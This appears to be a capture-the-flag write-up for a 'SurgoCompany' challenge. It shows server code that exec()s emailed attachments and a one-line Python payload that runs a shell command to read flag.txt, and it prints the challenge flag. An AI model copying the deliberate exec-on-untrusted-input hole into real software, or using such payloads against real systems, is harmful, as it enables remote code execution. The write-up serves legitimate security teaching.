




just create a test account with the email generator
then netcat the server and login the invoice website and submit the payload file
server will execute the payload file and print the flag

## SurgoCompany  



We are given a challenge server to connect to, as well as a website to view our invoice.  

The challenge server gets us to input our email, which it will then send an email to. On the invoice website, we can send a reply email, and the challenge server will output our reply content.  

```python
def main():
    pid = os.getpid()

    print(r'''
     ___                        ___                                              
    / __\ _ _  _ _  ___  ___   /  _\  ___  _ _ _  ___  ___  _ _  _ _                
    \__ \| | || '_>/ . |/ . \  | |__ / . \| ' ' || . \<_> || ' || | |
    /___/\___||_|  \_. |\___/  \___/ \___/|_|_|_||  _/<___||_|_|\_  |
                   <___/                         |_|            <___/
     ___          _       _                       ___   _  _             _    _
    | . | ___ ___<_> ___<| |> ___  _ _  ___ ___  /  _\ | |<_> ___  _ _ <| |> <_>
    |   |<_-<<_-<| |<_-< | | / ._>| ' | / /<_> | | |__ | || |/ ._>| ' | | |  | |
    |_|_|/__//__/|_|/__/ |_| \___\|_|_|/___<___| \___/ |_||_|\___\|_|_| |_|  |_|
                                                                                
    ''')
    print("Our customer support system is currently under development.")
    print("In the meantime, you can contact us about your problem via email.")

    client_address = ""
    while not re.match(EMAIL_REGEX, client_address): # Email address validation
        print("\nEnter your email address:")
        client_address = input().strip()

    print(f"\nThank you ({client_address})! We will contact you as soon as possible.")
    send_email(client_address, pid)

    print("We have sent you an email with instructions to resolve your issue.")
    print(f"We are waiting for your reply... (approximately {MAX_WAIT // 60} minutes maximum wait)\n")

    result, attachment_path, tempdir = receive_email(client_address, pid)
    if result:
        print("\nYour reply has been received!\n")

        check_attachment(attachment_path)
        print("\nThe request will be forwarded to our support team.")
        forward_email(attachment_path)

        print("We will contact you as soon as possible, goodbye!\n")
    else:
        print("No response received within the maximum time.\n")
        return
    
    if tempdir is not None:
        tempdir.cleanup()

if __name__ == "__main__":
    main()
```

The main vulnerability lies in the `check_attachment()` function, which the challenge server uses to handle file attachments in our reply.  

The function runs `exec()` on our email contents, and since the chall description already told us that `flag.txt` is in the same directory, we can use this to read the flag.  

```python
def check_attachment(filepath):
    if filepath is None:
        return False

    print(f"Checking attachment '{filepath}'...")

    # Read the attachment content
    # If it can't be read, then it can't be executable code
    try:
        with open(filepath, "r") as f:
            content = f.read()
    except Exception as e:
        print("The attachment passed the security check.")
        print(f"Error: {e}")
        return

    # Execute the attachment's code
    # If it raises an error, then it's not executable code and therefore not dangerous
    try:
        exec(content)
        print("The attachment did not pass the security check.")
        print("Removing the attachment...")

    except Exception as e:
        print("The attachment passed the security check.")
        print(f"Error: {e}")
```

We can first create `payload.txt` which will give us RCE on the server.  

```python
print(__import__('os').popen('cat flag.txt').read())
```

We can then connect to the challenge server and submit our email to get it to send the email.  



After refreshing the invoice website, we can reply to the email and attach our payload file in our reply.  



After some time, the server will then execute our payload and output the flag.  



Flag: `pascalCTF{ch3_5urG4t4_d1_ch4ll3ng3}`